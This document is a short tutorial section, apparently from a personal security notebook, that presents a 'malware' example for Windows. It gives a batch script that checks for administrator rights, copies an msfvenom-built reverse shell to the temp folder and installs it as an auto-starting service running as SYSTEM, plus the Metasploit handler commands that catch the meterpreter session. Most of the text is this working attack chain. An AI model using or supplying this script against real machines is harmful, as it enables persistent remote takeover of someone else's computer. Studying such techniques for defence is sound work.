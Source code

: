 # Reverse shell

In this section, I aim to experiment and provide a simple example of a "malware" that can be executed as an **Administrator** account on a target's Windows machine. For simplicity, I assume the weakest security scenario:

a. User is in the **Administrators** group on the machine

b. User left the machine unattended while being logged in

c. There is no anti-virus solutions (besides Windows defender) running on the machine

&#x20;The "malware" will simply provide a remote shell as the **SYSTEM** user.

> Note: the setup and techniques used in this example is EXTREMELY minimal, and OPSEC is not taken into account.

### Setup

The following outlines the root directory of the "malware" folder&#x20;

1. `rvshell.exe`

* Generated with msfvenom

2. `shell.cmd`

* To be executed as administrators&#x20;
  * GUI: Right-click -> "Run as administrator"

{% code title="shell.cmd" overflow="wrap" %}
```batch
REM Executes a C# script that returns a boolean value that indicates if the current user is in the "Adminstrators" group, before storing the value in the "ISADMIN" env variable
for /f "delims=" %%a in ('powershell.exe -NoProfile -Command "([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)"') do set ISADMIN=%%a

REM Echo the value of the "ISADMIN" env variable
echo ISADMIN=%ISADMIN%

REM User is not an administrator: EXIT
if /i "%ISADMIN%"!="True" (
    echo User is NOT an administrator
    exit
    )

REM User is an administrator: continue next step
set RVSHELL_EXE=%TEMP%\rvshell.exe

REM Copy reverse shell payload to a temp folder
copy /y rvshell.exe %RVSHELL_EXE%

REM Create and start a service with sc.exe

sc.exe create "rvshell" binPath= "%RVSHELL_EXE%" start= auto
sc.exe start "rvshell"

REM EXIT current prompt
exit
```
{% endcode %}

a. ...

b. `[Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)`&#x20;

* A C# one-liner which output a boolean value that indicates if the current user is in the "**Administrators**" group

#### Catch the shell

{% code title="Attacker machine" overflow="wrap" %}
```sh
$ msfconsole
msf6> set exploit/multi/handler
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set lhost <lhsot>
msf6> set lport <lport>
msf6> run
```
{% endcode %}

### Resources

1. **Powershell.exe**

{% embed url="https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1" %}

2. `set` command

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/set_1" %}



